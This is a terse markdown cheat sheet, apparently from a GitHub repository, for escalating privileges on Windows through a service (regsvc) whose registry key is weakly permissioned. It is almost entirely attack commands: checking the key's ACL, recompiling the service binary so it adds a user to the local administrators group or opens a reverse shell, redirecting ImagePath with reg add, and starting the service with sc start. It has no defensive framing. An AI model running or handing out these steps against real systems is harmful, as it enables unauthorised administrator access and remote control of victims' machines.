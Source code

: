 # Registry

## Steps:

#### 1: 

    Get-Acl -Path hklm:\system\CurrentControlSet\Services\regsvc | fl

#### 2: Check permissions of "NT AUTHORITY\INTERACTIVE" and "Everyone" if they have full file access or something similar.

#### 3: Copy the service to attacking machine.

#### 4: Change the system() function to insert command: 

    "cmd.exe /k net localgroup administrators USER /add"
    
#### or a reverse shell payload.

#### 5: Compile with x86_64-w64-mingw32-gcc then copy to target.

#### 6: 

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f 
    
#### 7:

    sc start regsvc
